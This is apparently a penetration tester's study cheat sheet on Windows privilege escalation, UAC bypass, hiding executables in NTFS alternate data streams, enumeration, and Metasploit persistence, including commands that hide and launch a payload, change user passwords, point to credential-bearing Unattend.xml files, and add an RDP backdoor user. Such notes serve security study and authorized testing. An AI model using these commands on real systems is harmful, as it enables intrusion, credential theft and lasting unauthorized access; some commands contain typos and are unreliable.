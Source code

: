 
# Privesc

## Tools
[windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits) #Windows_priv_esc
[WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) #Windows_priv_esc
[Metasploit local priv modules](Metasploit)  #Windows_priv_esc
[MimiKatz](Mimikatz) #password_dump
 
## By passing UAC

- In order to successfully bypass UAC, we will need to have access to a user account that is a part of the local administrators group on the windows target system


[UACME](https://github.com/hfiref0x/UACME) 

- UACme tool allows attackers to execute malicious payloads on Windows target with administrative/elevated privs by abusing the inbuilt Windows AuteElevate tool


## Token Impersonation

[Token Impersonation](Token_Impersonation)   

[Sweet potato](https://github.com/CCob/SweetPotato)


## Unattended Windows Setup 

Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems 
It's Typically done by **Unattended Windows Setup** which is used to automate the mass installation/deployment of Windows on systems
This tool utilizes configuration files that contain specific configurations and user account credentials, specially the Administrator account's password


- The Unattended Windows Setup utility will typically save files inside:
```
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Autounattend.xml
```

## Powersploit 

[Powersploit (Powerup)](https://github.com/PowerShellMafia/PowerSploit)


## Pass the hash

#passhash 

# Evasion 
## ADS (Alternate Data Streams)
**Data stream**: The content of the file eg. what's inside a text file is the data stream
**Metadata**: Information about the file eg. when file was created and by who etc.

- Alternate Data Streams (ADS) is an NTFS (New technology File System) file attribute and was designed to provide compatibility with the MacOS HFS (Hierarchical File System).
- Any file created on an NTFS formatted drive will have twi different forks/streams:
	- Data stream - Default stream that contains the data of the file
	- Resource stream - Typically contains metadata of the file
- Attackers can use ADS to hide malicious code or executables in legitimate files to evade detection 
- This can be done by storing malicious code or executables inside metadata of legitimate file

### Example

```powershell

notepad file.txt:hiddenfile # Creats a txt file and inside of a second file 

type PAYLOAD.exe > normalfile.txt:PAYLOAD.exe # hiding .exe file inside txt file

start normalfile.txt:PAYLOAD.exe # executing file inside normalfile.txt
OR
# Create link to the hidden file
mklink wupdate.exe PATH_OF_THE_FILE:PAYLOAD.exe
wupdate.exe # Will start PAYLOAD.exe




```

# System useful commands
## Powershell
```powershell

whoami /all
whoami /priv#  to check my user priv 
icacls check priv for files
- [enviroment]::Is64Bit [ARGUMENT] 

OperatingSystem # to check if the OS running 64bit
Process # to check if the processes running 64 bit
schtasks#  check running tasks cmd 

systeminfo

```
## CMD


```powershell

whoami /priv # user privs
net user # info about user
net localgroup  # check my user groups
net localgroup administrators # or anygroup check for users in group
net user USER PASSWORD # changet user USER password to PASSWORD

# stop services
sc stop SERVICE

sc query SERVICE to check service

sc start SERVICE to start 

```


# Metasploit

## PRIV ESC 
```rb

# Exploit Suggester 
https://github.com/AonCyberLabs/Windows-Exploit-Suggester


# On the target

systeminfo
# Copy output into a file on attacker machine

./windows-exploit-suggester.py --update # Download database 

./windows-exploit-suggester.py --database DATABASEFILE.xls --systeminfo SYSTEMINFOFILE.txt

```

## Post Exploitation
```ruby

use post/windows/gather/win_privs # check user privs 
OR 
getprivs # on Meterpreter

use post/windows/gather/enum_logged_on_users # check logged in users history

use post/windows/gather/checkvm # check vm

use post/windows/gather/enum_applications # enum apps on target
use post/windows/gather/enum_av_excluded # enum for paths excluded by av
use post/windows/gather/enum_computers # enum connected computers in same LAN
use post/windows/gather/enum_shares # enum shares 

# UAC bypass

use exploit/windows/local/bypassuac_injection

```

# Maintain access 

[MimiKatz](Mimikatz) 



## Metasploit
- Metasploit uploads a exe payload and add the exactable to the system services and when the system gets booted if we have only listener on we will get a reverse shell and maintain access on the target  or enabling RDP etc.
```rb

use exploit/windows/local/persistence_service # adding payload to the system services to be executed when system reboots

# Meterpreter

run getgui -e -u ignite -p 123 # Enable RDP and add user of the name ignite and password 123
run getui -e # just enabble RDP

# On metasploit
use post/windows/mange/enable_rdp # enable RDP on target

set username pavan

set password 123

set session 1
---

```